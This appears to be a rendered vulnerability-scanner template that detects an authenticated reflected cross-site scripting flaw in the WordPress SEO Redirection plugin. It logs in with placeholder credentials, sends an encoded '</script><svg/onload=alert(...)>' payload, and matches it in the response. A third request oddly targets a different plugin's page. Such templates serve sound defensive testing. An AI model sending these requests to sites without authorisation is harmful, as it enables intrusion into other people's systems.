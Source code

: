 - severity - medium
- tags - wordpress,xss,wp-plugin,authenticated,wpscan

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
POST /wp-admin/options-general.php?page=seo-redirection.php&tab=cutom HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

tab=%3C%2Fscript%3E%3Csvg%2Fonload%3Dalert%28%2FXSS%2F%29%3E

```

### Step - 3

```
GET /wp-admin/admin.php?page=wpda_duplicate_post_menu HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. \</script>\<svg/onload=alert(/XSS/)>
  2. settings_page_seo-redirection
- condition - and

**Type - word**

- part - header
- words
  1. text/html
